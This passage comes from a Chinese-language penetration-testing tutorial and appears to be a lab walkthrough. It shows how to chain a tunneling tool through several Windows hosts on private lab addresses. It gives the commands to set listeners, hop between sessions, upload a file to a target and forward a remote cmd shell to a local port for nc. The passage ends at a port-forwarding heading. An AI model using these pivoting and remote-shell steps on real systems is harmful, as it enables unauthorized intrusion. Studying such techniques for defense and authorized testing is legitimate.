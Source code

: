 ```
agent_win32.exe -l 8888
```

④物理机连接 win08

```
admin_Win32.exe -c 192.168.1.10 -p 6666
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0dlTELtnBzHD6l61gHBmAsvPn5FeMlYvnkxQawTzYnA02BHFiasdw5pQ/640?wx_fmt=png)

⑤通过域 win08 建立的隧道连接 win 7

```
#连接win08成功后查看连接的隧道会话
show
#进入08的会话
goto 1
#连接win 7
connect 192.168.106.129 7777
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0pY1R5opwPiaBoM3tjaTBiaf4VtlgHe36SxVZZGv90sNFMfc7XSq6EMxQ/640?wx_fmt=png)  

⑥连接 XP

```
#进去win7的会话
goto 2
#连接xp
connect 169.254.228.204 8888
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0bPX8atb73r23a4aBcVcURthk4kicsKJqy1GUBz9937NamVZI1QQRHjg/640?wx_fmt=png)

⑦成功建立隧道。开始执行命令:  
命令一：文件上传  

```
# 传送文件。将本地c:\unintall.log文件传送到目标服务器命名为1.txt
goto 5
upfile c:\unintall.log 1.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0qRqibJXe1C3DvkUXCwsNoOsHylyz7MAtJhPNeYZs5HicaqBbREUbCtLQ/640?wx_fmt=png)命令二：调用 shell  

```
#调用shell，将目标机器cmd shell转发到本地12345端口
shell 12345 
#nc连接,得到cmdshell
nc 127.0.0.1 12345
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0gRDsLjPckXqNic045GredvZygJ8dzjuibSjGgZcNLeZcoZrSGAznLtsg/640?wx_fmt=png)

命令三：端口转发
